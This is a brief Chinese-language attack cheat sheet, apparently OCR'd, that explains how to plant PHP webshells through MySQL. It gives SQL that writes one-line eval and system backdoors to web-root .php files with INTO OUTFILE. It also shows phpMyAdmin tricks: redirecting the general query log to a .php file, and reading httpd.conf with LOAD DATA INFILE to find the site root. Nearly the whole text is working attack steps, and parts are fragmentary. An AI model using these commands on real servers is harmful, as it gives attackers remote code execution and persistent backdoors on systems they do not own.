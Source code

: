         

mysql命令导出shell

         create TABLE study (cmd text Not NULL);
    
         insert INTO study (cmd) VALUES(‘<?php eval($_POST[cmd])?>’);
    
         select cmd from study into outfile ‘D:/php/www/htdocs/test/seven.php’;
    
         drop TABLE IF EXISTS study;
    
        

或

         use mysql;
    
         create table x (packet text) type=MYISaM;
    
         insert into x (packet) values(‘<pre><body><?php @system($_GET[“cmd”]);?></body></pre>’)
    
         select x into outfile ‘d:\php\xx.php’
    
        

或

         select ‘<?php eval($_POST[cmd]);?>’ into outfile ‘c:/inetpub/wwwroot/mysql.php/1.php’
    
        

**进入phpmyadmin**

1、知道网站路径-
直接执行SQL语句导入shell

注：有时可能出现不允许直接导shell

         解决方法：首页——变量——general lag 编辑——ON——general log file 
         编辑 D:\phpstudy\www\ba.php——SQL——一句话用引号引起来——执行——报错——
         生成日志，利用日志记录生成shell
    
        

2、不知道路径时——推理路径

         首页——变量——mysql的集成环境路径——apache的路径也知道了——D:\phpstudy\Apache\conf\httpd.conf——找个数据库——创建表：
    
        

create table a(a text);

开外链

     load data infile “D:/phpstudy/Apache/conf/httpd.conf” into table  a;
    
        

导出SQL搜索documentroot

路径推理

D:/phpstudy/Apache/conf/httpd.conf 配置文件的路径，找网站根目录

Apache

/usr/local/mysql

